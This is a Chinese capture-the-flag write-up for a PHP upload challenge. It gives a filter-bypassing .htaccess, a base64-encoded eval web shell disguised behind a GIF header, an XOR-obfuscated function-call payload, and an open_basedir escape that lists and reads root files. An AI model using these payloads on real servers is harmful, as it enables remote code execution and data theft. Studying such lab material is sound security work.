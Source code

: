 strrpos(要被检查的字符串,要搜索的字符串) :返回文件最后出现的位置

mb_strpos(要被检查的字符串,要搜索的字符串)：返回要查找的字符串在别一个字符串中首次出现的位置

此函数大致意思是文件内容不能包含<?，上传的文件要经过exif_imagetype（）检测



使用payload上传文件

```
?_=${%FF%FF%FF%FF^%A0%B8%BA%AB}{%ff}();&%ff=get_the_flag
```

.htaccess

```
#define height 12
#define width 12
AddType application/x-httpd-php .cc
php_value auto_append_file "php://filter/convert.base64-decode/resource=1.cc"
```

1.cc

```
GIF89a00PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
```

GIF89a与后面加密过的一句话不能使用空格或者回车隔开,因为base64解密文件时会出错，00可以修改为base64中允许出现的任意两个字符，此服务器版本为7.0+无法使用JS写法绕过<?



[绕过open_basedir参考文章](https://www.cnblogs.com/cimuhuashuimu/p/11544487.html)

绕过payload

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));`
```



先扫描目录

```
/upload/tmp_2c67ca1eaeadbdc1868d67003072b481/1.cc
```

post内容

```
cmd=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

返回内容

![](/pic/72.png)
